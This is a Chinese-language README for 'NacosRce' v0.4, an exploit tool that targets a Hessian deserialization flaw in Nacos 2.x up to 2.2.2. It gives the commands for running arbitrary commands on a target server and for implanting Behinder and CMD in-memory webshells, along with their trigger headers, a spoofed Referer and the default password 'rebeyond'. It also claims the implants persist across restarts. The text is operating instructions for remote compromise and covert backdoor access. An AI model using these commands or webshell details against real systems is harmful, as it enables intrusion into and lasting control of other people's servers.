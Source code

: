 <a name="QnUES"></a>
## Nacos Hessian 反序列化漏洞利用工具 v0.4

```latex

  _   _                     ____          
 | \ | | __ _  ___ ___  ___|  _ \ ___ ___ 
 |  \| |/ _` |/ __/ _ \/ __| |_) / __/ _ \
 | |\  | (_| | (_| (_) \__ \  _ < (_|  __/
 |_| \_|\__,_|\___\___/|___/_| \_\___\___|
```
<br />Author: 刨洞安全 && 凉风<br />**食用方式 **

1. 执行无回显命令	<br />java -jar NacosRce.jar ip:port "command"
2. 同时注入冰蝎&&CMD内存马(推荐)<br />java -jar NacosRce.jar ip:port memshell
3. 如果nacos是win的: java -jar NacosRce.jar ip:port memshell windows

1. 冰蝎内存马使用方法：<br />1、需要设置请求头x-client-data:rebeyond<br />2、设置Referer:https://www.google.com/<br />3、路径随意<br />4、密码rebeyond
2. CMD内存马使用方法：<br />1、需要设置请求头x-client-data:cmd<br />2、设置Referer:https://www.google.com/<br />3、请求头cmd:要执行的命令

v0.4版本实现了：<br />1、不出网漏洞利用<br />2、可多次发起漏洞利用<br />3、注入冰蝎/CMD内存马<br />4、内存马对多版本进行了兼容<br />5、修复windows的bug<br />tips:<br />1、请用jdk1.8<br />2、适用于 Nacos 2.x <= 2.2.2<br />3、非集群的也能打哦<br />4、此内存马重启nacos依然存活

项目地址：https://github.com/c0olw/NacosRce <br />
参考文章<br />[https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/](https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/)<br />[https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-反序列化分析/](https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/)<br />[https://github.com/Y4er/ysoserial](https://github.com/Y4er/ysoserial)
